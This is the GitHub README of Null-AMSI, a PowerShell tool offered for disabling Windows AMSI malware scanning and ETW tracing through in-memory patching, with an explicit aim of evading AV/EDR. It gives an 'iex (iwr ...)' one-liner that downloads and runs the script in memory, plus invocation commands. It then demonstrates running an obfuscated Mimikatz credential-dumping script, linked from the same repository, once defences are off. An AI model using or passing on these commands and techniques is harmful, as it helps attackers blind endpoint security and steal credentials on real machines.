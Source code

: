 [![Telegram](https://badgen.net/badge/icon/telegram?icon=telegram&label)](https://t.me/MalwareBit)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://github.com/BlackShell256/Null-AMSI/blob/main/LICENSE)
[![LinkedIn](https://img.shields.io/static/v1.svg?label=LinkedIn&message=@anibal&logo=linkedin&style=flat&color=blue)](https://www.linkedin.com/in/anibal-5a3870278/)

# Null-AMSI

## Description
The Null-AMS script is a tool that takes advantage of native PowerShell features and .NET functions using reflection, in order to modify the memory of amsi.dll, to disable its malware scanning and be free to execute scripts and malicious code. This tool is for educational use to understand the role of AMSI in protecting against malware and the implications of bypassing these defense mechanisms.

### AMSI
AMSI (Antimalware Scan Interface) is an application programming interface (API) developed by Microsoft that allows Windows applications and services to interact with third-party antivirus and antimalware software to detect and block malicious activity. AMSI was introduced in Windows 10 and is designed to improve security by allowing code, such as scripts, macros, and other potentially dangerous elements, to be scanned for malicious patterns before executing.

![image](https://github.com/user-attachments/assets/fa9ae24f-cbaa-4340-8010-536ad5949d0f)

### Reflection
Reflection in PowerShell refers to the ability to inspect and manipulate data types (such as classes, methods, properties and fields) at runtime, without needing to know their definition at compile time. This functionality is based on the .NET reflection system, which allows scripts and programs to access type and object metadata, make dynamic method calls, and modify properties or fields through reflection.

Amsi patches usually use Add-Type to add .NET types inside PowerShell, this method for AV or EDR is highly detected.
![image](https://github.com/user-attachments/assets/c03ec594-8b45-4af5-93ec-7f699d401619)

To avoid this, Null-AMSI uses reflection and use native functions, with this we can get the address of GetModuleHandle and GetProcAddress, we can use these functions to patch AMSI without alerting AV/EDR.

### Features
- *Native Memory Manipulation*: Null-AMSI uses functions from the “System.Runtime.InteropServices.Marshal” assembly to manipulate memory avoiding the use of ReadProcessMemory or WriteProcessMemory which are highly scrutinized by security measures.
  
- *All in memory*: The tool works in memory, when using "Add-Type" this function compiles the code into a C# dll, at that time your patch can be highly detected by an AV/EDR, this is avoided with reflection and kept in memory with stealth.
  
- *Effective patch bypass*: In contrast to traditional AMSI evasion techniques, which typically patch AmsiScanBuffer (highly flaged and documented) Null-AMSI patches AMSI providers, which guarantees a higher success rate against AV/EDR engines.

- *Multi-Architecture*: Works for both 32-bit and 64-bit PowerShell, to run in any environment, for this it checks the length in bytes of the IntPtr data type.

- *Evasion in memory modification*: By modifying the memory address permissions of AMSI and **EtwEventWrite** providers using the **VirtualProtect** function, **PAGE_EXECUTE_WRITECOPY** protection is employed, an uncommon configuration that favors evasion of security mechanisms. This protection contributes to the patch's effectiveness by allowing memory modifications to be made in a way that is more difficult for security tools to detect.

### ETW Patching
ETW (Event Tracing for Windows) is Microsoft's real-time event tracing and collection infrastructure for logging, monitoring and analyzing operating system and application events in Windows at the Kernel level. In the context of computer security and threat detection, ETW is a very valuable tool for Antivirus (AV) and Endpoint Detection and Response (EDR) solutions, as it provides detailed information about system activities that may be indicative of malicious behavior. Null-AMSI patches EtwEventWrite (optionally) by returning the execution flow to the next instruction.

## Use

To Use Null-AMSI, run the following commands:

With this command we will execute Null-AMSI in memory 
```
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-NullAMSI.ps1)
```
For AMSI patching only
```
Invoke-NullAMSI
```
For AMSI and ETW patching
```
Invoke-NullAMSI -etw
```
To get verbose and more information about the tool
```
Invoke-NullAMSI -v
```

### Usage example
1. Run the Null-AMSI tool, I added verbose flags and ETW patch (optional).
![image](https://github.com/user-attachments/assets/6f5ee3f1-0c93-4d23-9388-57135abd6506)

2. Now we can run Mimikatz with amsi disabled, I used an obfuscated version of Mimikatz ([Mimikatz-Obfuscated](https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-Mimikatz.ps1)) with zlib and base64 to avoid the http detection of my Eset Premium AV. 
![image](https://github.com/user-attachments/assets/caed0aae-ab4e-4d24-8761-52a03fd1a31f)

### Poc Evasion
[Full Video](https://www.linkedin.com/posts/anibal-5a3870278_evasion-bypass-amsi-activity-7264104326703329280-S8Y9?utm_source=share&utm_medium=member_desktop)
![image](https://github.com/user-attachments/assets/6c832166-92b5-446a-893c-273249cd68a8)

## Credit

* Some of the Reflection code I learned from Matt Graeber. [X/Twitter](https://x.com/mattifestation)

* Patch by Maor Korkos [X/Twitter](https://x.com/maorkor)

